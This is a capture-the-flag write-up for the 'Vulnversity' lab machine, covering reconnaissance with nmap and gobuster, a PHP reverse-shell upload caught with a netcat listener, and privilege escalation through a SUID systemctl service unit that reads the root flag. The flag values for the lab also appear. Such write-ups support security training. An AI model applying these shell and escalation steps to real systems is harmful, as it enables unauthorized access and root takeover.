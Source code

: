 <center> <h1>Vulneversity Write Up</h1> </center>

# Task 1 ⇒ Deploy the machine
IP: ```10.10.255.221```
# Task 2⇒ Reconnaissance
```
┌─[root@parrot]─[/home/alexdos2010m]
└──╼ #nmap -sV -sC 10.10.255.221
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 11:11 IST
Nmap scan report for 10.10.255.221
Host is up (0.53s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m04s, deviation: 2h18m34s, median: 4s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-08-14T01:41:47-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T05:41:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.79 seconds
```

Scan the box, how many ports are open? `6`

What version of the squid proxy is running on the machine?`3.5.12`

How many ports will nmap scan if the flag **-p-400** was used? `400`

Using the nmap flag **-n** what will it not resolve? `DNS`

What is the most likely operating system this machine is running? `Ubuntu`

What port is the web server running on? `3333`
# Task 3⇒ Locating directories using GoBuster!!
```
┌─[alexdos2010m@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.255.221:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.221:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/14 11:31:08 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.255.221:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.255.221:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.255.221:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.255.221:3333/fonts/] 
/internal             (Status: 301) [Size: 324] [--> http://10.10.255.221:3333/internal/]
                                                                                         
===============================================================
2021/08/14 11:58:22 Finished
===============================================================
```
<!-- ![[form_internal.png]] -->
<img src = 'assets/img/form_internal.png'>
# Task 4⇒ Compromise the webserver
<img src = 'assets/img/burp_intercept.png'>
<!-- ![[burp_intercept.png]] -->
<img src = 'assets/img/intruder.png'>
<!-- ![[intruder.png]] -->
### Reverse PHP Shell:
<img src = 'assets/img/form_internal_phtml.png'>
<!-- ![[form_internal_phtml.png]] -->
[reverse PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
┌─[alexdos2010m@parrot]─[~/Downloads]
└──╼ $nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.18.32] from (UNKNOWN) [10.10.255.221] 40778
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:42:38 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
```
<img src = 'assets/img/task4.png'>
<!-- ![[task4.png]] -->

```
$ cd home
$ ls
bill
$ cd bill
$ ls
user.txt
```

`$ cat user.txt 
8bd7992fbe8a6ad22a63361004cfcedb`
# Task 5⇒ Privilege Escalation
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF> > 
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.hNU5Ie7Gaj.service to /tmp/tmp.hNU5Ie7Gaj.service.
```

`
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
`